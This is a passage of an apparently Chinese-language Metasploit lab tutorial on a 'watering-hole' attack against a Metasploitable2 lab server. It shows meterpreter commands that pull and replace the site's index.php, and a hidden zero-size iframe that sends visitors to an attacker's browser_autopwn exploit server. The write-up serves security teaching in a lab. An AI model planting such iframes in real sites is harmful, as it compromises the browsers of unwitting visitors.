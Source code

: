 这个有点酷炫啊，有点像电影里演的那样。

### 水坑攻击

本节实验是上一节的延伸，攻击者先攻陷一个服务器，然后在服务器的网页中注入指向属于攻击者的`Browser AUtopwn`服务器的恶意`iFrame`。当别的客户机访问被感染服务器后，他的浏览器将被渗透。这就是我们说的“水坑攻击”。其流程如下：

![Bildschirmfoto 2018-10-30 um 12.59.49 PM.png]({{ site.url }}/images/metasploit/7D19EC7B345A866F85DBE81AEAE8D583.png)

我们建立实验环境如下：

```
Browser Autopwn Server: 172.16.56.1
URL: http://172.16.56.1:8080

Vulnerable Server: 172.16.56.130 (Metasploitable2)
URL: http://172.16.56.130

Guest of Metasploitable2: 172.16.56.152
```

在一切开始前，Guest访问Metasploitable2情况如下：

![Bildschirmfoto 2018-10-30 um 1.12.12 PM.png]({{ site.url }}/images/metasploit/E0D1BCB10DD6F113318E76154DC85861.png)

确保browser_autopwn处于启动状态，然后攻陷服务器（第一章的过程）。之后修改其网站上的`index.php`文件。先下载下来：

```
meterpreter > cd /var/www/
meterpreter > download ./index.php
[*] Downloading: ./index.php -> index.php
[*] Downloaded 891.00 B of 891.00 B (100.0%): ./index.php -> index.php
[*] download   : ./index.php -> index.php
```

然后添加恶意iframe：

```html
<iframe src="http://172.16.56.1:8080/" width=0 height=0 styple="hidden"
frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe>
```

再上传上去：

```bash
meterpreter > mv ./index.php ./index.php.bak
meterpreter > upload index.php ./
[*] uploading  : index.php -> ./
[*] uploaded   : index.php -> .//index.php

#别忘记改权限，否则浏览器无法访问
meterpreter > chmod 644 index.php
```

之后，Guest去访问服务器网站，依然是原样：

![Bildschirmfoto 2018-10-30 um 1.44.01 PM.png]({{ site.url }}/images/metasploit/8F881272DD2E68526E06D1763A25F0D4.png)
